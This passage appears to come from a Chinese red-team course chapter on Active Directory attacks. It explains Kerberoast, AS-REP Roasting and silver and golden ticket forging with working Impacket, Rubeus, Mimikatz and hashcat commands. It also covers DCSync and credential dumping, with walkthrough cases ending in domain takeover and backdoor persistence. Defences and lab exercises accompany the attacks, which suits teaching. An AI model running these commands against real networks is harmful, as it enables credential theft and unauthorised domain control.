   - NoPAC（CVE-2021-42278/42287）
   - 等等...

3. **利用ACL/权限关系**
   比如你对域控有某种权限，
   可以直接修改或者添加用户。

4. **利用委派关系**
   约束委派、非约束委派等。

5. **利用信任关系**
   如果有域信任，
   可以从一个域打到另一个域。

6. **各种票据攻击**
   - 黄金票据（需要krbtgt的Hash）
   - 钻石票据
   - 等等...

### 4.3 域渗透的核心思路

**核心：凭据 + 关系**

1. **凭据**
   收集各种凭据，
   用凭据横向移动，
   一步步往上爬。

2. **关系**
   域内有各种关系：
   - 用户和组的关系
   - ACL权限关系
   - 委派关系
   - 信任关系
   - 等等...

   这些关系都可能成为攻击路径。

所以域渗透的时候，
要多收集信息，
多分析关系，
找到最短的攻击路径。

这也是为什么BloodHound这么重要，
因为它能把这些关系可视化，
帮你找到攻击路径。

---

## 🔥 Kerberoast 攻击

### 5.1 什么是Kerberoast？

Kerberoast是一种针对Kerberos的攻击，
简单说就是：
申请某个SPN的服务票据（ST），
然后离线破解这个票据，
得到服务账号的密码。

**原理回顾：**
服务票据（ST）是用
服务账号的密码Hash加密的。
如果我们能拿到ST，
就可以离线暴力破解，
如果密码强度不高，
就能破解出来。

**Kerberoast的特点：**
1. 任何域用户都可以请求任何SPN的ST
   （只要SPN存在）
2. 攻击不需要管理员权限，普通用户就行
3. 攻击只需要域用户权限，不需要登录任何服务器
4. 只在申请票据的时候会产生日志，相对隐蔽

### 5.2 Kerberoast攻击流程

**第一步：找出所有注册了SPN的用户**
也就是找出所有服务账号。

**第二步：请求这些SPN的服务票据**
向KDC申请TGS-REQ。

**第三步：保存票据，离线破解**
把申请到的ST保存下来，
用Hashcat等工具离线破解。

### 5.3 工具和命令

**1. Impacket的GetUserSPNs.py**
```bash
# 列出所有SPN用户
GetUserSPNs.py 域名/用户名:密码 -dc-ip 域控IP

# 列出并请求票据（保存为hashcat格式）
GetUserSPNs.py 域名/用户名:密码 -dc-ip 域控IP -request -outputfile hash.txt

# 用Hash破解（指定某个用户）
GetUserSPNs.py 域名/用户名:密码 -dc-ip 域控IP -request-user 用户名
```

**2. Rubeus**
```cmd
:: 列出SPN
Rubeus.exe kerberoast /stats

:: 执行Kerberoast，导出票据
Rubeus.exe kerberoast /outfile:hash.txt

:: 指定用户
Rubeus.exe kerberoast /user:服务账号名 /outfile:hash.txt
```

**3. PowerView（PowerSploit）**
```powershell
# 获取所有SPN用户
Get-NetUser -SPN | select name,serviceprincipalname
```

**4. 手工方法**
```cmd
:: 用setspn命令
setspn -T 域名 -F -Q */*
```

### 5.4 破解票据

拿到票据后，
用Hashcat破解：

```bash
# 破解Kerberos TGS-REP
hashcat -m 13100 hash.txt wordlist.txt
```

`-m 13100` 是Kerberos 5 TGS-REP的模式。

### 5.5 Kerberoast的防御

1. 强密码策略
   服务账号密码要足够长、足够复杂。

2. 服务账号不要有过高权限
   服务账号只用它需要的权限。

3. 定期修改服务账号密码

4. 监控异常的TGS请求
   大量的TGS请求可能是Kerberoast攻击。

5. 禁用RC4加密，用AES
   AES更难破解。

---

## 🔥 AS-REP Roasting 攻击

### 6.1 什么是AS-REP Roasting？

前面讲预认证的时候提到过，
如果某个用户没有开启
Kerberos预认证，
那攻击者可以直接请求该用户的TGT，
然后离线破解。

这就是**AS-REP Roasting**攻击。

**原理：**
正常情况下，AS-REQ中
包含用用户密码加密的时间戳，
KDC验证通过才返回TGT。

如果用户关闭了预认证，
KDC直接返回TGT（的一部分），
这部分是用用户密码加密的。
攻击者拿到后可以离线破解。

**AS-REP Roasting的特点：**
1. 不需要知道用户密码
2. 只需要用户没开预认证
3. 不需要管理员权限，普通域用户就能做
4. 相对比较少见（因为默认开预认证）

### 6.2 哪些用户可能没开预认证？

- 老系统迁移过来的用户
- 某些特定应用需要（比如一些Unix/Linux的集成）
- 管理员配置错误

实际环境中不多见，
但偶尔能碰到。

### 6.3 工具和命令

**1. Impacket的GetNPUsers.py**
```bash
# 从用户列表中查找不需要预认证的用户
GetNPUsers.py 域名/ -usersfile users.txt -dc-ip 域控IP -format hashcat -outputfile hash.txt

# 如果已经有凭据，也可以用凭据查询
GetNPUsers.py 域名/用户名:密码 -dc-ip 域控IP -request -format hashcat -outputfile hash.txt
```

**2. Rubeus**
```cmd
:: 执行AS-REP Roasting
Rubeus.exe asreproast /outfile:hash.txt

:: 指定格式
Rubeus.exe asreproast /format:hashcat /outfile:hash.txt
```

**3. PowerView**
```powershell
# 查找不需要预认证的用户
Get-NetUser -PreauthNotRequired | select name
```

### 6.4 破解

破解和Kerberoast类似，
用Hashcat：

```bash
# AS-REP的hashcat模式是 18200
hashcat -m 18200 hash.txt wordlist.txt
```

### 6.5 防御

1. 确保所有用户都开启了预认证
   （默认就是开启的，别乱关）

2. 强密码策略

3. 定期检查有没有用户关闭了预认证

---

## 🎫 白银票据与黄金票据

### 7.1 白银票据（Silver Ticket）

**什么是白银票据？**
伪造的服务票据（ST），
可以用来访问指定的服务。

**需要什么条件？**
需要服务账号的密码Hash。

**能做什么？**
只能访问指定的服务，
比如CIFS服务（文件共享）、
HTTP服务、MSSQL服务等。

**白银票据的特点：**
- 不需要和KDC交互
- 直接伪造，完全离线
- 只能访问指定服务
- 需要服务账号的Hash
- 比较隐蔽，因为不需要请求KDC

**常用的服务（SPN类型）：**

| 服务类型 | 对应服务 | 用途 |
|----------|----------|------|
| CIFS | 文件共享 | 访问共享文件夹、执行PsExec等 |
| HTTP | Web服务 | 访问Web应用、WinRM等 |
| WSMAN | WS-Management | WinRM |
| RPCSS | RPC服务 |  |
| MSSQLSvc | SQL Server | 数据库 |
| TERMSRV | 终端服务 | RDP？ |
| ... | ... | ... |

**白银票据制作工具：**

**Mimikatz：**
```
kerberos::golden /user:用户名 /domain:域名 /sid:域SID /target:目标服务器 /service:服务名 /rc4:服务账号Hash /ptt
```

**Rubeus：**
```cmd
Rubeus.exe silver /service:cifs /rc4:服务账号Hash /user:用户名 /domain:域名 /target:目标服务器 /sid:域SID /ptt
```

**ticketer.py（Impacket）：**
```bash
ticketer.py -nthash 服务账号Hash -domain 域名 -domain-sid 域SID -spn cifs/目标服务器 用户名
```

**使用示例（访问文件共享）：**
```
kerberos::golden /user:administrator /domain:corp.com /sid:S-1-5-21-xxxx-xxxx-xxxx /target:filesrv01.corp.com /service:cifs /rc4:服务器计算机账号Hash /ptt
```
然后就可以直接访问`\\filesrv01\c$`了。

### 7.2 黄金票据（Golden Ticket）

**什么是黄金票据？**
伪造的TGT（票据授权票据），
有了TGT，
就可以申请任何服务的ST，
相当于拥有了整个域的访问权限。

**需要什么条件？**
需要krbtgt用户的密码Hash。

**krbtgt是什么？**
是KDC的服务账号，
TGT就是用krbtgt的密码加密的。
拿到krbtgt的Hash，
就可以伪造任意用户的TGT。

**黄金票据的特点：**
- 拥有域内最高权限
- 可以伪造任意用户
- 完全离线，不需要和KDC交互
- 需要krbtgt的Hash
- 非常强大，是域渗透的"终极武器"之一

**怎么拿到krbtgt的Hash？**
- DCSync（域管理员权限可以做）
- 直接登录域控，抓Hash
- 利用域控漏洞
- 等等...

**黄金票据制作工具：**

**Mimikatz：**
```
kerberos::golden /user:administrator /domain:域名 /sid:域SID /krbtgt:krbtgt的Hash /ptt
```

**Rubeus：**
```cmd
Rubeus.exe golden /rc4:krbtgt的Hash /user:administrator /domain:域名 /sid:域SID /ptt
```

**ticketer.py：**
```bash
ticketer.py -nthash krbtgt的Hash -domain 域名 -domain-sid 域SID administrator
```

**使用示例：**
```
kerberos::golden /user:administrator /domain:corp.com /sid:S-1-5-21-xxxx-xxxx-xxxx /krbtgt:518b98ad4178a53695dc997aa02d455c /ptt
```

导入票据后，
就可以用管理员身份
访问域内任何服务了。

### 7.3 白银票据 vs 黄金票据

| 特性 | 白银票据 | 黄金票据 |
|------|----------|----------|
| 伪造的票据 | ST（服务票据） | TGT（票据授权票据） |
| 需要的Hash | 服务账号的Hash | krbtgt的Hash |
| 权限范围 | 只能访问指定服务 | 可以访问所有服务 |
| 需要和KDC交互 | 不需要 | 不需要（但要用TGT申请ST的话需要） |
| 隐蔽性 | 较高 | 较高 |
| 获取难度 | 相对容易 | 较难 |

**注意：**
票据伪造虽然强大，
但也有一些限制，
比如时间同步、PAC验证等。

**图49-7 白银票据与黄金票据对比图**



---

## 🎯 真实案例

### 案例1：Kerberoast拿下服务管理员

**场景：**
护网行动中，
通过外部钓鱼拿到了
一个普通域用户的权限，
想往更高权限打。

**过程：**

**第一步：信息收集**
用普通域用户权限，
收集域信息：
- 域名：corp.com
- 域控：dc01.corp.com
- 大概500个用户，200台机器

**第二步：找SPN用户**
用Rubeus扫一下：
```cmd
Rubeus.exe kerberoast /stats
```
发现有20多个服务账号注册了SPN。

**第三步：执行Kerberoast**
```cmd
Rubeus.exe kerberoast /outfile:kerb.hash
```
导出了所有SPN的服务票据。

**第四步：离线破解**
把hash文件拖到Hashcat里，
用字典破解：
```bash
hashcat -m 13100 kerb.hash wordlist.txt -O
```
等了一会儿，
破解出了3个服务账号的密码！

其中一个是SQL服务账号，
权限还挺高的。

**第五步：用服务账号登录**
用破解出来的SQL服务账号，
登录数据库服务器：
```bash
psexec.py corp.com/sqlsvc:密码@sql01.corp.com
```
成功登录！

**第六步：继续提升**
在数据库服务器上，
- 收集凭据
- 找更高权限的会话
- 继续横向移动

最后找到了域管理员的密码，
成功拿下域控。

**总结：**
- Kerberoast是从普通用户往上爬的好方法
- 服务账号的密码往往设置得比较弱
- 破解出来的服务账号可能有很高的权限
- Kerberoast只需要普通域用户权限，性价比很高

---

### 案例2：AS-REP Roasting获得初始访问

**场景：**
某次渗透测试，
还没拿到任何域内权限，
只知道域名和几个用户名。

**过程：**

**第一步：收集用户名**
通过信息收集，
拿到了一个用户名列表
（从网站、LinkedIn、邮件等地方收集的）。

**第二步：尝试AS-REP Roasting**
用GetNPUsers.py试试：
```bash
GetNPUsers.py corp.com/ -usersfile users.txt -dc-ip 10.0.0.10 -format hashcat -outputfile asrep.hash
```

运气不错！
发现有一个用户`svc_backup`
没有开启预认证。
成功拿到了AS-REP的Hash。

**第三步：离线破解**
```bash
hashcat -m 18200 asrep.hash wordlist.txt
```
很快就破解出来了，
密码是`Backup@2023`。

**第四步：登录**
用这个账号登录：
```bash
evil-winrm -i 10.0.0.20 -u svc_backup -p 'Backup@2023'
```
成功拿到了Shell！

**第五步：信息收集和权限提升**
发现这个svc_backup账号
有备份权限，
可以备份SAM和SYSTEM，
然后拿到本地管理员的Hash。

然后继续横向移动...

**总结：**
- AS-REP Roasting可以作为初始访问的手段
- 只需要知道用户名，不需要任何权限
- 虽然比较少见，但运气好的话能直接打进域内
- 信息收集（用户名）很重要

---

### 案例3：白银票据访问文件服务器

**场景：**
已经控制了一台Web服务器，
并且拿到了这台服务器的
计算机账号的Hash，
想访问文件服务器的共享。

**过程：**

**第一步：收集信息**
- 控制的机器：web01.corp.com
- 有web01的计算机账号Hash
- 目标：filesrv01.corp.com 的C$共享

**第二步：伪造白银票据**
等等，白银票据需要的是
**目标服务账号**的Hash，
不是当前机器的。

哦，不对，
如果有web01的计算机账号Hash，
能伪造访问web01的票据，
不能伪造访问filesrv01的。

那怎么办？
换个思路，
我们有web01的System权限，
看看能不能找到其他凭据。

**第三步：抓取凭据**
在web01上抓密码：
```
privilege::debug
sekurlsa::logonpasswords
```
发现有一个文件服务管理员
登录过这台机器，
抓到了他的密码。

**第四步：用管理员账号访问**
用文件服务管理员的账号
直接访问filesrv01。

（这个案例主要想说明白银票据的概念，
实际用白银票据的场景是：
你有某个服务账号的Hash，
想访问那个服务。）

**让我们换一个白银票据的场景：**

**场景：**
通过某种方式拿到了
filesrv01计算机账号的Hash，
想访问它的C$共享。

**过程：**

**第一步：获取filesrv01的计算机账号Hash**
（怎么拿到的？比如永恒之蓝打过去，
然后抓Hash，或者其他方式）

**第二步：制作白银票据**
用Mimikatz：
```
kerberos::golden /user:administrator /domain:corp.com /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:filesrv01.corp.com /service:cifs /rc4:filesrv01的NTLMHash /ptt
```

**第三步：访问共享**
```cmd
dir \\filesrv01.corp.com\c$
```
成功访问！

**第四步：上传文件，执行命令**
甚至可以配合PsExec或者WMI，
拿到Shell。

**总结：**
- 白银票据可以用来访问指定服务
- 需要服务（或计算机）账号的Hash
- 不需要和KDC交互，比较隐蔽
- 拿到机器账号Hash可以伪造访问该机器的票据

---

### 案例4：DCSync + 黄金票据拿下域控

**场景：**
通过横向移动，
拿到了域管理员的权限，
想做权限维持。

**过程：**

**第一步：确认域管理员权限**
```cmd
whoami
# corp\administrator

net group "domain admins" /domain
# 确认在域管理员组里
```

**第二步：DCSync导出krbtgt的Hash**
用Mimikatz：
```
lsadump::dcsync /domain:corp.com /user:krbtgt
```
或者用Impacket的secretsdump.py：
```bash
secretsdump.py corp.com/administrator:密码@dc01.corp.com -just-dc-user krbtgt
```

成功拿到了krbtgt的NTLM Hash和AES Key。

**第三步：制作黄金票据**
```
kerberos::golden /user:administrator /domain:corp.com /sid:S-1-5-21-xxxx-xxxx-xxxx /krbtgt:krbtgt的Hash /ptt
```

**第四步：验证**
```cmd
:: 查看票据
klist

:: 访问域控的C盘
dir \\dc01\c$

:: PsExec登录域控
psexec \\dc01 cmd
```
成功！

**第五步：权限维持**
黄金票据可以作为后门使用，
即使域管理员改了密码，
只要krbtgt的密码没改，
黄金票据就一直有效。

**总结：**
- 拿到域管理员权限后，可以DCSync导出所有Hash
- krbtgt的Hash非常重要，可以做黄金票据
- 黄金票据是很强大的权限维持方式
- 防御：定期修改krbtgt的密码（改两次）

---

### 案例5：从普通用户到域控（组合技）

**场景：**
护网行动，
只拿到一个普通域用户的权限，
目标是拿下域控。

**攻击路径：**
普通用户 → Kerberoast → 服务账号 → 本地管理员 → 域管理员会话 → 域管理员 → DCSync → 黄金票据

**过程：**

**第一步：信息收集**
用普通用户权限收集域信息，
用BloodHound分析路径。

**第二步：Kerberoast**
执行Kerberoast攻击，
破解出一个服务账号（webadmin）的密码。
这个服务账号是某台服务器的本地管理员。

**第三步：横向移动**
用webadmin账号登录那台服务器：
```bash
wmiexec.py corp.com/webadmin:密码@srv01.corp.com
```

**第四步：抓取凭据**
在srv01上抓密码，
发现有域管理员的登录会话！
成功抓到了域管理员的NTLM Hash。

**第五步：登录域控**
用域管理员的Hash，
哈希传递登录域控：
```bash
psexec.py corp.com/administrator@dc01.corp.com -hashes :域管理员Hash
```
成功拿下域控！

**第六步：DCSync + 黄金票据**
DCSync导出krbtgt的Hash，
制作黄金票据留后门。

**总结：**
- 域渗透往往是多种攻击的组合
- 一步步往上爬，像爬梯子一样
- 信息收集和分析非常重要
- BloodHound能帮你找到最短路径
- 凭据收集贯穿始终

---

## ✏️ 课后习题

### 一、选择题（15道）

1. Active Directory的简称是？
   A. AD
   B. DC
   C. KDC
   D. GPO

2. 域控制器的英文缩写是？
   A. AD
   B. DC
   C. KDC
   D. OU

3. Kerberos认证中，KDC的全称是？
   A. Key Distribution Center
   B. Kerberos Distribution Center
   C. Key Data Center
   D. Kerberos Data Center

4. TGT的中文名称是？
   A. 服务票据
   B. 票据授权票据
   C. 预认证票据
   D. 黄金票据

5. 以下哪个是服务主体名称的缩写？
   A. SID
   B. RID
   C. SPN
   D. GPO

6. Kerberoast攻击的目标是？
   A. 没有开启预认证的用户
   B. 注册了SPN的用户
   C. 域管理员
   D. krbtgt用户

7. AS-REP Roasting攻击的目标是？
   A. 没有开启预认证的用户
   B. 注册了SPN的用户
   C. 域管理员
   D. krbtgt用户

8. 黄金票据需要哪个用户的Hash？
   A. administrator
   B. 域管理员
   C. krbtgt
   D. 任意用户

9. 白银票据可以用来做什么？
   A. 访问任意服务
   B. 访问指定服务
   C. 登录域控
   D. 修改密码

10. 域内每个对象都有一个唯一的安全标识符，叫做？
    A. SPN
    B. SID
    C. RID
    D. GUID

11. Kerberos认证分为几步？
    A. 2步
    B. 3步
    C. 4步
    D. 5步

12. FSMO角色一共有几个？
    A. 3个
    B. 5个
    C. 7个
    D. 9个

13. 默认情况下，TGT的有效期大约是？
    A. 1小时
    B. 5小时
    C. 10小时
    D. 24小时

14. 以下哪个不是FSMO角色？
    A. Schema Master
    B. PDC Emulator
    C. Domain Admin
    D. RID Master

15. 组织单元的英文缩写是？
    A. OU
    B. GPO
    C. DC
    D. AD

### 二、填空题（5道）

1. Kerberos认证的三方是：客户端、服务端和 ______。
2. Kerberos中，TGT的中文是 ______，ST的中文是 ______。
3. 服务主体名称的英文缩写是 ______。
4. 不需要预认证的用户可能遭受 ______ 攻击。
5. 黄金票据需要 ______ 用户的Hash。

### 三、简答题（5道）

1. 简单描述Kerberos的认证流程（三步）。
2. 什么是Kerberoast攻击？它的原理是什么？
3. 什么是AS-REP Roasting攻击？它的原理是什么？
4. 白银票据和黄金票据有什么区别？各需要什么条件？
5. 域渗透的一般流程是什么？

### 四、实操题（5道）

1. 搭建一个简单的域环境（至少一台DC + 一台客户机），熟悉AD的基本概念。
2. 练习使用PowerView收集域信息（用户、计算机、组、SPN等）。
3. 在测试环境中，练习Kerberoast攻击（用Rubeus或Impacket）。
4. 在测试环境中，练习制作白银票据和黄金票据（Mimikatz或Rubeus）。
5. 尝试使用BloodHound分析域内的攻击路径。

---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了域渗透基础，
内容比较多，也比较抽象，
大家可以多读几遍，
把基础打牢。

**重点回顾：**

1. **Active Directory基础**
   - AD（活动目录）是域的核心
   - DC（域控制器）是运行AD的服务器
   - 对象：用户、计算机、组、OU、GPO...
   - 域、域树、域林、信任关系
   - FSMO角色（5个）
   - SID（安全标识符）

2. **Kerberos认证原理**
   - 三方：客户端、服务端、KDC
   - 三个步骤：AS（拿TGT）→ TGS（拿ST）→ AP（访问服务）
   - 几个概念：KDC、TGT、ST、SPN、krbtgt
   - 预认证

3. **NTLM认证原理**
   - NTLM Hash是什么
   - NTLM网络认证（质询/响应）
   - 哈希传递的原理
   - NTLM中继

4. **域渗透基本思路**
   - 初始访问 → 信息收集 → 提权 → 凭据收集 → 横向移动 → 拿域控 → 权限维持 → 清理痕迹
   - 常见拿域控的方法

5. **Kerberoast攻击**
   - 原理：服务票据用服务账号Hash加密，可以离线破解
   - 工具：Rubeus、Impacket、Hashcat
   - 普通用户权限就能做

6. **AS-REP Roasting攻击**
   - 原理：没开预认证的用户，可以直接请求TGT然后破解
   - 工具：GetNPUsers.py、Rubeus
   - 比较少见，但偶尔能碰到

7. **白银票据和黄金票据**
   - 白银票据：伪造ST，需要服务账号Hash，只能访问指定服务
   - 黄金票据：伪造TGT，需要krbtgt Hash，可以访问所有服务
   - 都很强大，也很隐蔽

8. **五个实战案例**
   - Kerberoast拿下服务管理员
   - AS-REP Roasting获得初始访问
   - 白银票据访问文件服务器
   - DCSync + 黄金票据
   - 组合技：从普通用户到域控

域渗透的内容很多，
这一章只是基础，
下一章我们学习域渗透进阶，
包括委派攻击、ACL攻击、
域控漏洞利用等等。

继续加油！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day054-senior-内网信息收集)
- [➡️ 下一章：---](/redteam/day056-senior-横向移动技术大全)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
